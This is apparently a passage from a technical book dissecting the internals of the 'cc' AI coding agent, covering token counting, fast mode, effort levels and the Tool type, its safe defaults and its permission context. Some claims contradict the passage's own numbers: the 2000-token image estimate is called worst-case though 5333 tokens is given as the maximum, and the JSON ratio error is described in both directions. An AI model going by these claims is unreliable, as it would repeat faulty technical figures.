1. **API-based counting** (`countTokensWithAPI()` at `src/services/tokenEstimation.ts:L124-L201`): Sends a `countTokens` request to the Anthropic API. This is the most accurate method because it uses the same tokenizer as the model, but it requires a network round-trip and consumes a small number of API tokens. It handles Bedrock, Vertex, and direct Anthropic API calls, with beta filtering for Vertex compatibility. When the API provider is Bedrock, the function delegates to `countTokensWithBedrock()` because the Bedrock SDK does not support the `countTokens` endpoint directly.

2. **Haiku fallback counting** (`countTokensViaHaikuFallback()` at `src/services/tokenEstimation.ts:L251-L325`): When the primary `countTokens` endpoint is unavailable (e.g., on Bedrock), cc sends a `messages.create` request to a small fast model (Haiku by default, Sonnet for Vertex global or when thinking blocks are present). The response's `usage.input_tokens + cache_creation_input_tokens + cache_read_input_tokens` yields an exact token count. This is more expensive than the `countTokens` endpoint but more accurate than the heuristic. The code strips tool search-specific fields from messages before sending, because these fields are only valid with the tool search beta header and would cause errors otherwise.

3. **Rough estimation** (`roughTokenCountEstimation()` at `src/services/tokenEstimation.ts:L203-L208`): Divides byte length by a configurable bytes-per-token ratio (default 4). For JSON files, the ratio drops to 2 because dense JSON has many single-character tokens (`{`, `}`, `:`, `,`, `"`) that inflate the character count relative to the token count. Images and documents are estimated at 2000 tokens regardless of actual size, matching the API's worst-case cost for a maximally-sized 2000x2000 image (5333 tokens by the width*height/750 formula).

### The bytes-per-token ratio by file type

The `bytesPerTokenForFileType()` function provides file-type-aware estimation:

```typescript
// src/services/tokenEstimation.ts:L215-L224
export function bytesPerTokenForFileType(fileExtension: string): number {
  switch (fileExtension) {
    case 'json':
    case 'jsonl':
    case 'jsonc':
      return 2
    default:
      return 4
  }
}
```

This distinction matters because the rough estimation is used as a fallback when the API is unavailable. For a 100KB JSON file, using the default 4 bytes/token ratio would estimate 25,000 tokens, while the actual count is closer to 50,000 tokens (2 bytes/token). Underestimating JSON tokens is dangerous because it can let an oversized tool result slip into the conversation, potentially overflowing the context window.

### Fast mode and effort in the query loop

When `fastMode` is true on `AppState`, its effects extend well beyond a system-prompt directive. Fast mode operates at three levels of the query loop simultaneously:

1. **System prompt injection**: The prompt assembly in `src/constants/prompts.ts` injects a directive telling the model to make shorter responses, skip unnecessary explorations, and prioritize the most direct path. This is the behavioral layer -- the model receives explicit instructions to work faster.

2. **API-level routing via beta header**: When fast mode is active and latched, `src/services/api/claude.ts` attaches the `FAST_MODE_BETA_HEADER` to every subsequent streaming request. The header is latched on first use (via `setFastModeHeaderLatched()`) so that once a request goes out in fast mode, all follow-up requests within the session carry the header even if the user toggles fast mode off mid-turn. The API uses this header to route the request to faster-responding infrastructure. Crucially, fast mode does not switch the model: it uses the same Opus 4.6 model with accelerated output delivery. The `getFastModeModel()` function in `src/utils/fastMode.ts` returns `'opus'` (with an optional `[1m]` suffix for the 1M-context merge), confirming that the model identity is unchanged.

3. **Cooldown and fallback**: Fast mode can be temporarily downgraded when the API signals rate limits or overloaded conditions. The `triggerFastModeCooldown()` function in `src/utils/fastMode.ts` transitions the runtime state from `active` to `cooldown`, recording a reset timestamp and reason (`rate_limit` or `overloaded`). During cooldown, requests are sent without the fast-mode header, falling back to standard-speed infrastructure. When the cooldown expires, the runtime state automatically reverts to `active` and the fast-mode header is re-attached on the next request. This fallback mechanism ensures that fast mode does not cause request failures; it gracefully degrades rather than hard-failing.

The `effortValue` field provides a finer-grained control over the agent's diligence level, mapping to different levels of thoroughness in the model's behavior. Where fast mode is a binary toggle with API-level routing effects, effort is a graduated parameter that controls how deeply the model reasons.

### Effort-to-model mapping

The `EffortValue` type in `src/utils/effort.ts` is defined as `EffortLevel | number`, where `EffortLevel` is one of four string levels: `low`, `medium`, `high`, or `max`. The numeric form is an internal-only (ant-only) override that maps to the string levels via `convertEffortValueToLevel()`: values up to 50 map to `low`, up to 85 map to `medium`, up to 100 map to `high`, and above 100 map to `max`.

The resolution chain follows a strict precedence, implemented in `resolveAppliedEffort()`:

```mermaid
stateDiagram-v2
    [*] --> CheckEnv: resolveAppliedEffort called
    CheckEnv --> Unset: CLAUDE_CODE_EFFORT_LEVEL=unset/auto
    CheckEnv --> EnvValue: env override present
    CheckEnv --> CheckAppState: no env override
    Unset --> [*]: return undefined
    EnvValue --> ClampMax: resolved value is 'max'
    EnvValue --> ReturnResolved: resolved value is not 'max'
    CheckAppState --> ClampMax: appState.effortValue='max'
    CheckAppState --> ReturnResolved: appState.effortValue set (not max)
    CheckAppState --> ModelDefault: appState.effortValue undefined
    ModelDefault --> ReturnDefault: getDefaultEffortForModel
    ClampMax --> High: model does not support max effort
    ClampMax --> ReturnMax: model supports max effort
    High --> [*]: return 'high'
    ReturnMax --> [*]: return 'max'
    ReturnResolved --> [*]: return resolved value
    ReturnDefault --> [*]: return default or undefined
```

The key mapping logic is:

1. **Environment override first**: If `CLAUDE_CODE_EFFORT_LEVEL` is set, it takes precedence over everything. Setting it to `unset` or `auto` disables effort entirely (returns `undefined`), which means the API uses its server-side default (effectively `high`).

2. **AppState value second**: The user's current selection (from the `/effort` command or the `EffortCallout` UI component) is stored in `appState.effortValue` and used when no environment override exists.

3. **Model default last**: Each model has a default effort level determined by `getDefaultEffortForModel()`. For Opus 4.6, the default is `medium` for Pro subscribers and for Max/Team subscribers when the `tengu_grey_step2` GrowthBook feature flag is enabled. For all other models, the default is `undefined`, which resolves to the API's server-side default of `high`.

4. **Max effort clamping**: The `max` level is only supported by Opus 4.6 (checked via `modelSupportsMaxEffort()`). If `max` is selected on any other model, it is automatically downgraded to `high` before being sent to the API. This prevents API validation errors and ensures that the effort parameter is always within the model's supported range.

5. **API dispatch**: The resolved effort value is injected into the API request via `configureEffortParams()` in `src/services/api/claude.ts`. String effort levels (`low`, `medium`, `high`, `max`) are placed in `outputConfig.effort` alongside the `EFFORT_BETA_HEADER`. Numeric overrides (ant-only) go into `extraBodyParams.anthropic_internal.effort_override`. If the model does not support effort (checked via `modelSupportsEffort()`), the parameter is silently skipped.

The effort level does not change which model is used -- the query loop always sends requests to the configured `mainLoopModel`. Instead, it adjusts how much compute the model spends on each request, trading reasoning depth for speed. A `low` effort request on Opus 4.6 produces faster but shallower responses; a `max` effort request on the same model produces the deepest reasoning the model is capable of, at higher latency and cost.

These settings flow from the `AppState` store through the query loop context and into the API request. They do not change the budget thresholds or token counting logic directly; instead, they shape the model's behavior so it tends to consume fewer tokens per turn. This is a softer form of cost control than the budget tracker: rather than hard-stopping the loop, it encourages the model to be more efficient from the start. The combination of effort controls (which reduce per-turn token consumption) and budget tracking (which stops runaway loops) provides defense in depth against cost overruns.

## Edge cases and failure modes

### Subagent budget isolation

When `checkTokenBudget()` receives a non-null `agentId`, it immediately returns `{ action: 'stop', completionEvent: null }`. This means subagents never receive continuation nudges from the budget tracker. The rationale is that subagents have their own budget caps set by the spawning context, and the parent's budget tracker should not interfere with the child's execution. A subagent that receives a 'stop' decision with a null event will end its turn without a completion message, allowing the parent to resume control.

This design prevents a subtle bug: if the parent's budget tracker sent continuation nudges to a subagent, the subagent would continue running beyond its allocated budget, consuming tokens that the parent did not account for. The null event signals to the query loop that this was a structural stop (not a budget exhaustion), and the loop should not emit a completion message to the model.

### The Bedrock countTokens gap

The `@anthropic-sdk/bedrock-sdk` does not support the `countTokens` endpoint. When the API provider is Bedrock, `countTokensWithAPI()` delegates to `countTokensWithBedrock()`, which uses the AWS SDK's `CountTokensCommand` instead (`src/services/tokenEstimation.ts:L437-L495`). This requires resolving inference profiles to backing model IDs via `getInferenceProfileBackingModel()`, because Bedrock's `CountTokensCommand` requires a model ID (not an inference profile ARN). If the resolution fails (e.g., the inference profile does not have a backing model), the function returns `null` and the system falls back to rough estimation.

### Image token overestimation

The rough estimation uses a fixed 2000 tokens for all images and documents (`src/services/tokenEstimation.ts:L400-L413`). This matches the API's worst-case cost for a maximally-sized 2000x2000 image (5333 tokens by the width*height/750 formula) but is intentionally conservative. For small images (e.g., a 100x100 icon), this overestimates significantly, but the error is in the safe direction: it triggers auto-compact earlier rather than later, preventing context overflow. The comment in the code explains the reasoning:

```typescript
// src/services/tokenEstimation.ts:L400-L412
if (block.type === 'image' || block.type === 'document') {
  // https://platform.claude.com/docs/en/build-with-claude/vision#calculate-image-costs
  // tokens = (width px * height px)/750
  // Images are resized to max 2000x2000 (5333 tokens). Use a conservative
  // estimate that matches microCompact's IMAGE_MAX_TOKEN_SIZE to avoid
  // underestimating and triggering auto-compact too late.
  //
  // document: base64 PDF in source.data.  Must NOT reach the
  // jsonStringify catch-all — a 1MB PDF is ~1.33M base64 chars →
  // ~325k estimated tokens, vs the ~2000 the API actually charges.
  // Same constant as microCompact's calculateToolResultTokens.
  return 2000
}
```

The alignment with microCompact's `IMAGE_MAX_TOKEN_SIZE` constant ensures that the token estimation and the compaction threshold use the same image token budget, preventing a mismatch where the estimation thinks there is room but the compaction system disagrees.

### Thinking blocks and model selection

When messages contain thinking or redacted_thinking blocks, the Haiku fallback must use Sonnet instead, because Haiku 3.5 does not support thinking. The code checks for thinking blocks via `hasThinkingBlocks()` and adjusts the model selection accordingly (`src/services/tokenEstimation.ts:L256-L277`). The `TOKEN_COUNT_THINKING_BUDGET` is set to 1024 and `TOKEN_COUNT_MAX_TOKENS` to 2048, the minimum values that satisfy the API constraint that `max_tokens` must be greater than `thinking.budget_tokens`. This is a niche case that only affects sessions where extended thinking is enabled, but getting it wrong would cause the token counting request to fail with a validation error.

### Tool search field stripping

The `stripToolSearchFieldsFromMessages()` function removes `caller` from `tool_use` blocks and `tool_reference` from `tool_result` content before sending messages for token counting (`src/services/tokenEstimation.ts:L66-L122`). These fields are only valid with the tool search beta header, and sending them without the header would cause API errors. If all content blocks are stripped from a `tool_result`, a placeholder `[tool references]` text is inserted to avoid an empty content array, which the API would reject.

## Where cc diverges from the published pattern

HER §13 (Cost and Budgeting) describes a five-layer cost control architecture: per-task cost caps, per-session cost caps, per-hour spend rate alerts, dead-letter queues, and budget allocation across generator/evaluator/sub-agents. cc's implementation maps to these layers with notable differences:

1. **Diminishing-returns detection replaces per-hour alerts**: cc does not implement spend-rate alerting based on cost per hour. Instead, it detects when the agent is making progress below a 500-token-per-check threshold. This is a more direct signal than spend velocity because it correlates with task completion, not cost accumulation. A model that is spending $10/hour but making steady progress should continue; a model that is spending $2/hour but going in circles should stop.

2. **No dead-letter queue**: When a task exceeds its budget, cc stops the loop and reports the completion event. There is no mechanism to queue over-budget tasks for human review. The HER pattern assumes an enterprise pipeline with manual intervention; cc assumes a single-user session where the user can just re-prompt. This is a fundamental difference between an enterprise agent platform and a developer tool.

3. **Observation masking is implemented elsewhere**: The HER's observation masking (52% cost reduction per JetBrains Research) is implemented in cc's compaction pipeline (ch08), not in the token budget system. The budget tracker measures tokens after compaction has already applied, so the cost reduction from masking is reflected in lower `turnTokens` values. The budget system and the compaction system are complementary: compaction reduces the per-turn token cost, and the budget tracker catches the cases where even reduced costs are not producing value.

4. **Semantic routing is model-tier based, not task-type based**: The HER recommends routing simple sub-tasks to cheap models (Haiku for summarization, Sonnet for implementation, Opus for planning). cc's `countTokensViaHaikuFallback()` uses model-tier routing for token counting, but the main query loop always uses the configured `mainLoopModel`. Effort-based routing is not implemented at the dispatch level. The user can manually switch models, but cc does not automatically route queries to cheaper models based on task complexity.

5. **Cost-per-outcome tracking is not implemented**: The HER recommends tracking cost-per-completed-task and cost-per-quality-unit, not cost-per-token. cc tracks token counts and reports them in telemetry events, but it does not correlate cost with task outcomes. This is a gap that would be valuable to fill for enterprise users who need to justify the cost of agent-assisted development.

## Developer takeaways for building a long-running agent

1. **Track token deltas, not just totals.** The diminishing-returns detector in `checkTokenBudget()` works because it compares the delta since the last check, not just the cumulative total. A model that has consumed 50k tokens but is still making 2k-token progress per turn should continue; one that has consumed 10k tokens but is only gaining 200 tokens per turn should stop. The delta captures the velocity of progress, which is the relevant signal for continuation decisions.

2. **Use a 90% completion threshold for continuation nudges.** The `COMPLETION_THRESHOLD` constant at 0.9 means the model receives nudges to wrap up when it has used 90% of its budget. This gives it a 10% runway to produce a final response, which is typically enough for a summary or handoff without allowing a full additional iteration. The 10% margin is a pragmatic balance: too much runway wastes tokens, too little cuts off the model mid-sentence.

3. **Provide a nudge message, not a hard stop, at the threshold.** The `ContinueDecision` includes a `nudgeMessage` that tells the model how much budget remains. This is more effective than a hard cutoff because the model can adjust its output length and completeness to fit within the remaining budget. A hard stop at 90% would leave the model with no opportunity to summarize its findings, potentially losing valuable work.

4. **Layer your estimation strategies by accuracy and cost.** API-based counting is exact but slow; heuristic estimation is fast but imprecise. cc's three-tier pipeline (API, Haiku fallback, rough estimation) ensures that the system always has a token count available, even when the API is unreachable, while preferring accuracy when possible. Each tier serves as a fallback for the tier above it, creating a resilient counting system.

5. **Tune the bytes-per-token ratio by file type.** JSON files have a ratio of 2 bytes/token because of their dense token structure, while most text files use 4 bytes/token. Using a single ratio would overestimate JSON tokens (triggering premature compaction) or underestimate text tokens (risking context overflow). The `bytesPerTokenForFileType()` function makes this adjustment automatically.

6. **Isolate subagent budgets from the parent tracker.** Subagents spawned via AgentTool have their own budget caps. The parent's `checkTokenBudget()` returns an immediate stop when it detects a subagent context, preventing the parent's nudge messages from leaking into the child's conversation. This isolation ensures that each agent in a multi-agent hierarchy operates within its own budget constraints.

7. **Estimate images and documents conservatively.** A fixed 2000-token estimate for all images is conservative but safe. Underestimating image token cost risks context overflow, which is far more disruptive than triggering compaction a few turns early. Aligning the image token estimate with the compaction system's threshold prevents mismatches between the estimation and the compaction logic.
# Part III. The Tool System

An agent without tools is just a chatbot. The tool system is what transforms a language model into an actor that can read files, write code, search codebases, execute commands, and interact with the world. Part III covers cc's tool architecture from the base type through the dispatch pipeline to the seven concrete tool families.

The theme of Part III is the tool contract: how tools are defined, how they are dispatched safely, and what each tool family does. These seven chapters are grouped together because they form a self-contained subsystem -- the tool layer sits between the query loop (Part II) and the model, translating model requests into side effects with appropriate safety checks. Understanding this layer is essential because tool dispatch is the primary mechanism through which an agent affects the world, and every tool call passes through the same validation, permission, and hook pipeline.

The tool system embodies several of HER's core patterns. Pattern 11 (Single-Purpose Tool Design) is the foundational principle: each tool does one thing well, with a clear input schema and a deterministic output format. Pattern 9 (Progressive Tool Expansion) governs how tools are surfaced to the model -- not all at once, but on demand via ToolSearch. Pattern 12 (Deterministic Lifecycle Hooks) structures the pre-tool-use and post-tool-use hook execution that gates every dispatch. And Pattern 10 (Command Risk Classification) is implemented in the Bash tool's classifier pipeline, which assigns risk bands to shell commands before they execute.

Chapter 11 dissects the tool contract itself -- the Zod/JSONSchema input validation, the `call()` method, concurrency flags, deferral semantics, and max result size -- walking through the `buildTool` helper that generates the standardized tool wrapper. This chapter establishes the vocabulary for every subsequent tool chapter: what a tool definition looks like, how input is validated, and how results are normalized.

Chapter 12 traces the tool dispatch pipeline: how a requested tool call travels through `validateInput`, `canUseTool`, `runPreToolUseHooks`, `tool.call`, `runPostToolUseHooks`, and result normalization, with read-only parallelism and write serialization. This is the pipeline that every tool call follows, and understanding it is prerequisite for understanding the permission system (Part VI) and the hook system (Chapter 36 and Chapter 37).

Chapter 13 covers the file system tool family -- Read, Write, Edit, Glob, Grep, and NotebookEdit -- including safety checks, multi-edit semantics, image and PDF support, and the relationship to file-history snapshots. These are the most frequently used tools in cc, and their implementation reveals important design decisions about safety, idempotency, and result formatting.

Chapter 14 examines the Bash tool and its safety subsystem, including command classification, destructive pattern detection, mode validation, sandbox detection, and the PowerShell variant. The Bash tool is the highest-risk tool in cc's catalog, and its safety architecture is the most elaborate -- a multi-stage pipeline that classifies, validates, and optionally sandboxes every command before execution.

Chapter 15 explores the search and analysis tools -- GrepTool, LSPTool, and ToolSearchTool -- and explains progressive tool disclosure and why it matters for large catalogs. ToolSearch is the mechanism by which cc avoids tool explosion: instead of exposing all tools to the model at once, it surfaces them on demand when the model asks what tools are available.

Chapter 16 covers the web tools -- WebFetch and WebSearch -- including SSRF guard, caching, and how web access is gated, tying back to the prompt-injection threat model. Web tools are unique in that they fetch untrusted external content, making them a primary attack surface that requires dedicated defenses.

Chapter 17 examines the meta tools that structure sessions: TodoWrite for self-planning, AskUserQuestion for human-in-the-loop interrupts, Brief for summary generation, Config for settings changes, and SendMessage for teammate communication. These tools are not about performing work on the filesystem or the network; they are about structuring the agent's own process and communicating with the user and other agents.

By the end of this Part, you should understand the complete lifecycle of a tool call in cc: how it is validated, dispatched, executed, and post-processed; how each tool family works internally; and how safety and permission checks gate every side effect. This understanding is essential for Part IV (which covers the Agent tool), Part VI (which covers the permission system in depth), and Part X (which evaluates the tool system against HER's patterns and failure modes).

Return to the Table of Contents in the front matter for an overview of all ten parts and fifty-seven chapters.
# Anatomy of a Tool

## Overview

Every operation cc performs on the user's behalf -- reading a file, editing code, running a shell command, searching the web -- flows through a single abstraction: the `Tool` type. This type is the contract between the model's intent and the harness's execution. It defines how inputs are validated, how permissions are checked, how results are serialized, and how the UI renders the interaction. Understanding the `Tool` type is essential for understanding every subsequent chapter in this book, because the tool dispatch pipeline (ch12), the permission system, the hook system, and the streaming executor all operate on `Tool` instances.

This chapter examines the `Tool<Input, Output, P>` type in `src/Tool.ts` (792 lines), the `buildTool()` helper that provides safe defaults, the `Tools` collection type, the tool registry in `src/tools.ts` (389 lines), and how these pieces connect to Fowler's computational-vs-inferential taxonomy from the HER and the Single-Purpose Tool Design pattern. We trace the full lifecycle from tool registration through input validation to result serialization, identifying the design decisions that make cc's tool system robust and extensible.

## Data structures and contracts

### The Tool type parameterized triple

The `Tool` type is parameterized over three type variables that capture the full lifecycle of a tool invocation:

```typescript
// src/Tool.ts:L362-L365
export type Tool<
  Input extends AnyObject = AnyObject,
  Output = unknown,
  P extends ToolProgressData = ToolProgressData,
> = {
```

- **Input**: A Zod schema type (`AnyObject` = `z.ZodType<{ [key: string]: unknown }>`) that validates the model's tool_use parameters at runtime. Every tool call is first parsed through `inputSchema.safeParse()`, and malformed inputs are rejected before the tool's `call()` method is invoked. This is a computational control in Fowler's taxonomy: deterministic, fast, and reliable.

- **Output**: The return type of the tool's `call()` method. This is the data that gets serialized into a `tool_result` block and sent back to the model. Most tools define a concrete output type (e.g., `BashTool` returns `{ stdout: string; stderr: string; exitCode: number }`), while MCP tools return `unknown` because their output schema is defined by the MCP server.

- **P**: The progress data type, extending `ToolProgressData`. Tools that stream incremental results (bash output, web search results, agent task output) use this to emit progress events before the final result. Progress events are rendered in the UI immediately, giving the user real-time feedback while the tool executes.

The three parameters are not just type-level abstractions. They drive concrete behavior at every stage of the tool lifecycle: the Input type drives Zod validation, the Output type drives `mapToolResultToToolResultBlockParam()` serialization, and the Progress type drives the `onProgress` callback signature.

```mermaid
%% classDiagram of the Tool interface and concrete implementations
classDiagram
    class Tool~Input Output P~ {
        +inputSchema: Input
        +inputJSONSchema?: ToolInputJSONSchema
        +outputSchema?: ZodType
        +name: string
        +aliases?: string[]
        +searchHint?: string
        +shouldDefer?: boolean
        +alwaysLoad?: boolean
        +maxResultSizeChars: number
        +call(args, context, canUseTool, parentMessage, onProgress) ToolResult
        +description(input, options) string
        +isConcurrencySafe(input) boolean
        +isEnabled() boolean
        +isReadOnly(input) boolean
        +isDestructive?(input) boolean
        +checkPermissions(input, context) PermissionResult
        +renderToolUseMessage?()
        +renderToolResultMessage?()
        +renderToolUseProgressMessage?()
    }
    class ToolDef {
        Omits defaultable methods
    }
    class BuiltTool {
        All Tool methods filled in
    }
    class BashTool {
        +isConcurrencySafe(input) bool
        +isReadOnly(input) bool
    }
    class FileReadTool {
        +maxResultSizeChars = Infinity
    }
    class FileEditTool {
        +contextModifier()
    }
    class MCPTool {
        +isMcp = true
        +outputSchema from server
    }
    class ToolSearchTool {
        +shouldDefer = false
    }
    Tool <|-- BashTool : implements
    Tool <|-- FileReadTool : implements
    Tool <|-- FileEditTool : implements
    Tool <|-- MCPTool : implements
    Tool <|-- ToolSearchTool : implements
    ToolDef ..> buildTool : creates
    buildTool ..> BuiltTool : returns
    BuiltTool ..|> Tool : implements
```

This class diagram shows the `Tool` interface at the center, its key fields and methods, and how concrete implementations like `BashTool`, `FileReadTool`, `FileEditTool`, `MCPTool`, and `ToolSearchTool` specialize the interface. The `ToolDef` type feeds into `buildTool()` which produces a `BuiltTool` that satisfies the full `Tool` contract.

### The required methods

Every tool must implement a core set of methods that define its behavior, its permission contract, and its identity within the system:

```typescript
// src/Tool.ts:L379-L404
call(
  args: z.infer<Input>,
  context: ToolUseContext,
  canUseTool: CanUseToolFn,
  parentMessage: AssistantMessage,
  onProgress?: ToolCallProgress<P>,
): Promise<ToolResult<Output>>

description(
  input: z.infer<Input>,
  options: {
    isNonInteractiveSession: boolean
    toolPermissionContext: ToolPermissionContext
    tools: Tools
  },
): Promise<string>

readonly inputSchema: Input
// Type for MCP tools that can specify their input schema directly in JSON Schema format
// rather than converting from Zod schema
readonly inputJSONSchema?: ToolInputJSONSchema
// Optional because TungstenTool doesn't define this. A future refactor will make it required.
// When we do that, we can also go through and make this a bit more type-safe.
outputSchema?: z.ZodType<unknown>
inputsEquivalent?(a: z.infer<Input>, b: z.infer<Input>): boolean
isConcurrencySafe(input: z.infer<Input>): boolean
isEnabled(): boolean
isReadOnly(input: z.infer<Input>): boolean
/** Defaults to false. Only set when the tool performs irreversible operations (delete, overwrite, send). */
isDestructive?(input: z.infer<Input>): boolean
interruptBehavior?(): 'cancel' | 'block'
isSearchOrReadCommand?(input: z.infer<Input>): {
  isSearch: boolean
  isRead: boolean
  isList?: boolean
}
isOpenWorld?(input: z.infer<Input>): boolean
requiresUserInteraction?(): boolean
isMcp?: boolean
isLsp?: boolean

checkPermissions(
  input: z.infer<Input>,
  context: ToolUseContext,
): Promise<PermissionResult>
```

The `call()` method executes the tool's operation and returns a `ToolResult<Output>` containing the data, optional new messages, an optional context modifier, and optional MCP metadata. The `ToolUseContext` parameter provides access to the abort controller, the app state, the tool pool, and the message history. The `canUseTool` parameter is the permission decision function, which the tool can call to request interactive permission for sub-operations (e.g., a bash command spawned by `AgentTool`). The `parentMessage` parameter provides the assistant message that contains the tool_use block, which is needed for correlating results with their source.

The `description()` method produces a human-readable summary of the tool invocation for the permission dialog. This is what the user sees when cc asks "Allow Bash to run `git status`?" -- the description string, not the raw input JSON. Generating the description is async because some tools need to resolve file paths or fetch additional context before producing a readable summary.

`isConcurrencySafe()` determines whether the tool can run in parallel with other tools. This method takes the tool's input as an argument, meaning the same tool can be concurrency-safe for some inputs and not for others. For example, `BashTool` is concurrency-safe for read-only commands (`ls`, `cat`) but not for write commands (`rm`, `mkdir`). `isReadOnly()` signals that the tool does not modify filesystem or process state. `checkPermissions()` performs tool-specific permission logic beyond the general permission system.

### The ToolResult type

The `call()` method returns a `ToolResult<Output>` that carries the tool's data and optional side effects:

```typescript
// src/Tool.ts:L321-L336
export type ToolResult<T> = {
  data: T
  newMessages?: (
    | UserMessage
    | AssistantMessage
    | AttachmentMessage
    | SystemMessage
  )[]
  contextModifier?: (context: ToolUseContext) => ToolUseContext
  mcpMeta?: {
    _meta?: Record<string, unknown>
    structuredContent?: Record<string, unknown>
  }
}
```

The `data` field holds the tool's output. The `newMessages` field allows the tool to inject additional messages into the conversation (e.g., a system reminder or an attachment). The `contextModifier` field allows the tool to modify the `ToolUseContext` for subsequent tool calls in the same turn -- for example, `FileEditTool` updates the file history state after a successful edit. The `mcpMeta` field carries MCP protocol metadata that is passed through to SDK consumers.

### The optional methods and rendering contract

Beyond the required methods, `Tool` defines a rich optional rendering contract that decouples the tool's data model from its visual presentation. A tool can implement any of the following methods, and the REPL's rendering layer will use them to display the tool interaction:

- `renderToolUseMessage()` -- renders the tool invocation in the transcript
- `renderToolResultMessage()` -- renders the tool's output in the transcript
- `renderToolUseProgressMessage()` -- renders progress events while the tool runs
- `renderToolUseRejectedMessage()` -- renders a custom rejection UI
- `renderToolUseErrorMessage()` -- renders a custom error UI
- `renderGroupedToolUse()` -- renders multiple parallel instances as a group
- `extractSearchText()` -- provides searchable text for the transcript index
- `getActivityDescription()` -- returns a present-tense description for the spinner
- `getToolUseSummary()` -- returns a compact summary for condensed views
- `isSearchOrReadCommand()` -- classifies the operation for UI collapsing

This rendering contract is what makes cc's tool output feel native rather than generic. `GlobTool` shows compact "Found 3 files in 12ms" results; `BashTool` streams live terminal output with syntax highlighting; `FileEditTool` shows a diff preview with accept/reject affordances. Each tool controls its own visual presentation without the rendering layer needing to know the specifics of each tool's data format.

### The ToolDef and buildTool helper

Not every tool needs to implement every method. The `ToolDef` type omits the "defaultable" methods, and `buildTool()` fills them in with safe defaults:

```typescript
// src/Tool.ts:L757-L769
const TOOL_DEFAULTS = {
  isEnabled: () => true,
  isConcurrencySafe: (_input?: unknown) => false,
  isReadOnly: (_input?: unknown) => false,
  isDestructive: (_input?: unknown) => false,
  checkPermissions: (
    input: { [key: string]: unknown },
    _ctx?: ToolUseContext,
  ): Promise<PermissionResult> =>
    Promise.resolve({ behavior: 'allow', updatedInput: input }),
  toAutoClassifierInput: (_input?: unknown) => '',
  userFacingName: (_input?: unknown) => '',
}
```

These defaults are fail-closed where it matters: `isConcurrencySafe` defaults to `false` (assume not safe), `isReadOnly` defaults to `false` (assume writes), and `toAutoClassifierInput` defaults to `''` (skip the classifier). Tools that perform security-relevant operations must explicitly override these defaults. A tool author who forgets to implement `isConcurrencySafe()` will default to `false`, preventing unsafe concurrent execution. This is the opposite of a fail-open default, which would allow unsafe behavior by accident.

The `buildTool()` function spreads `TOOL_DEFAULTS` under the tool-specific definition, so explicit overrides always win:

```typescript
// src/Tool.ts:L783-L792
export function buildTool<D extends AnyToolDef>(def: D): BuiltTool<D> {
  return {
    ...TOOL_DEFAULTS,
    userFacingName: () => def.name,
    ...def,
  } as BuiltTool<D>
}
```

The `BuiltTool<D>` type at the type level mirrors this runtime spread: for each defaultable key, if the tool definition provides it, the definition's type wins; if it omits it, the default's type fills in. This ensures that callers always see a complete `Tool` type without needing `?.() ?? default` chains.

```mermaid
%% flowchart of buildTool() behavior
flowchart TD
    A[ToolDef provided by tool author] --> B{buildTool called}
    B --> C[Start with TOOL_DEFAULTS]
    C --> D[Set userFacingName to def.name]
    D --> E[Spread def over defaults]
    E --> F{def provides method?}
    F -->|Yes| G[def.method wins]
    F -->|No| H[TOOL_DEFAULTS.method used]
    G --> I[BuiltTool with complete Tool interface]
    H --> I
    I --> J{Safety-critical method missing?}
    J -->|isConcurrencySafe missing| K[Defaults to false - fail closed]
    J -->|isReadOnly missing| L[Defaults to false - assume writes]
    J -->|toAutoClassifierInput missing| M[Defaults to empty string - skip classifier]
    K --> N[Safe BuiltTool returned]
    L --> N
    M --> N
```

This flowchart shows how `buildTool()` constructs a complete `Tool` from a partial `ToolDef`. The tool author's explicit overrides always take precedence over the defaults, but any omitted safety-critical method falls back to the most restrictive default, ensuring that omission cannot lead to unsafe execution.

### The Tools collection type

```typescript
// src/Tool.ts:L701
export type Tools = readonly Tool[]
```

`Tools` is a type alias for `readonly Tool[]`. It exists not for runtime behavior but for documentation: it marks every location where a tool set is assembled, passed, or filtered across the codebase, making it easy to trace the flow of tool collections through the system. The `readonly` modifier prevents accidental mutation of tool arrays, which is important because the tool pool is shared across concurrent operations.

### The ToolPermissionContext

The `ToolPermissionContext` type carries all permission-related state for a given session. It is a deeply immutable type that is passed through the tool dispatch pipeline and consulted by both `checkPermissions()` and the general permission system:

```typescript
// src/Tool.ts:L123-L138
export type ToolPermissionContext = DeepImmutable<{
  mode: PermissionMode
  additionalWorkingDirectories: Map<string, AdditionalWorkingDirectory>
  alwaysAllowRules: ToolPermissionRulesBySource
  alwaysDenyRules: ToolPermissionRulesBySource
  alwaysAskRules: ToolPermissionRulesBySource
  isBypassPermissionsModeAvailable: boolean
  isAutoModeAvailable?: boolean
  strippedDangerousRules?: ToolPermissionRulesBySource
  shouldAvoidPermissionPrompts?: boolean
  awaitAutomatedChecksBeforeDialog?: boolean
  prePlanMode?: PermissionMode
}>
```

The `mode` field determines the overall permission strategy (default, plan, auto, bypass). The rule sets provide fine-grained allow/deny/ask decisions for specific tools and patterns, organized by source (session, local settings, user settings, CLI args). The `shouldAvoidPermissionPrompts` flag is set for background agents that cannot show a UI, causing all permission checks to auto-deny. The `awaitAutomatedChecksBeforeDialog` flag is set for coordinator workers, ensuring that automated checks (hooks, classifiers) complete before showing an interactive permission dialog.

## Control flow

### Tool registration and assembly

The tool pool is assembled in `src/tools.ts` through a layered process that balances completeness (all available tools) with relevance (only tools the user has permission to use) and cache stability (deterministic ordering):

```mermaid
flowchart TD
    A[getAllBaseTools] --> B[Feature-flag conditional imports]
    B --> C[getTools - filter by mode and deny rules]
    C --> D[assembleToolPool - merge built-in + MCP tools]
    D --> E[Dedup by name, sort for cache stability]
    E --> F[Final tool pool]
```

`getAllBaseTools()` returns the full list of available tools, conditional on feature flags and `USER_TYPE`. Tools like `REPLTool`, `SuggestBackgroundPRTool`, and various internal-only tools are only included for Anthropic-internal builds (`process.env.USER_TYPE === 'ant'`). Feature-flagged tools like `SleepTool`, `MonitorTool`, and cron tools are conditionally imported at module level using `require()` for dead code elimination -- Bun's bundler will tree-shake these imports when the feature flag is `false`.

`getTools()` filters the base list by mode and deny rules. In simple mode (`CLAUDE_CODE_SIMPLE`), it returns only `BashTool`, `FileReadTool`, and `FileEditTool` (or `REPLTool` in REPL mode). When coordinator mode is also active in simple mode, it includes `AgentTool` and `TaskStopTool` so the coordinator can spawn workers. It also calls `filterToolsByDenyRules()` to remove tools that have blanket deny rules in the permission context.

```mermaid
flowchart LR
    A[getAllBaseTools] --> B{CLAUDE_CODE_SIMPLE?}
    B -->|Yes| C[Bash + Read + Edit only]
    B -->|No| D[Filter by isEnabled]
    D --> E[filterToolsByDenyRules]
    E --> F{REPL mode?}
